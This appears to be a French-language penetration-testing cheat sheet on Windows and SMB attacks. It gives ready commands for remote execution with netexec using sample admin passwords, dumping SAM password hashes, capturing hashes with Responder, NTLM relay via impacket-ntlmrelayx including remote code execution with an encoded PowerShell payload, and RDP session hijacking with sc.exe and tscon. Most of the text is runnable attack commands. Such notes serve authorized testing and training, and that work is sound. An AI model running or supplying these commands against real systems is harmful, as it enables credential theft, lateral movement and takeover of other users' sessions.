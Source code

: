 # SMB et admin

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#Exécution de commandes
netexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
#Énumérer les utilisateurs authentifiés
netexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
#Extraire les hash du SAM
netexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Obtenir hash par SMB
Utiliser Responder pour écouter et passer un chemin style //192.168.23.245 sur l'application victime

Par multicast:
ex: typo dans nom de partage ```\\mysharefoder\``` au lieu de ```\\mysharedfolder\```
Procédure de résolution de nom de partage
1. vérification dans C:\Windows\System32\Drivers\etc\hosts
2. cache dns locale
3. DNS server
4. Multicast demandant adresse IP du partage.

# relay ntlm
Attend une connection et ...

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
#dump les SAM de la cible
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
#RCE
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JABjAGw...'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# RPC
https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf

# Hijack sessions RDP
Besoin d'être system, ou admin et devenir système

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~powershell 
#découvrir les sessions
query user
# sessionshijack est le nom de service, 2 le id de la session à voler, dest est le nom de notre session
#utilise tscon pour se connecter à une autre session
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
net start sessionhijack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


